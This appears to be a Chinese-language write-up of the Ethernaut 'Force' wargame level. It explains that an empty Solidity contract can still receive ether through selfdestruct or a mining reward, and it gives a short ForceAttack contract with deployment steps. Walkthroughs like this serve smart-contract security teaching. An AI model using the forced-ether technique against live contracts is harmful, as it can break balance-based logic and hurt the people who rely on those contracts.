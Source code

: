 ```yaml
---
layout: post
title: Force
tags: [ethernaut]
---
```


# Force
关于强制向某个地址进行转账
```solidity
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### 代码分析
上述合约没有实际的代码，没有fallback函数，所以如何通过transfer，sendTransaction等方法直接向合约地址转账会失败。
但是，如果将该地址作为miner的受益地址或者将其作为selfdestruct的受益地址时，资金还是可以转移到该合约地址上。
因为上述两种情形都没有执行合约的代码。

### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract ForceAttack {

  function ForceAttack() public payable {}
  function() public payable {}

  function attack(address target) public {
    selfdestruct(target);
  }
}
```

### 攻击步骤
1. 部署攻击合约，并向其发送一定数量的eth
2. 调用攻击合约的attack(address)方法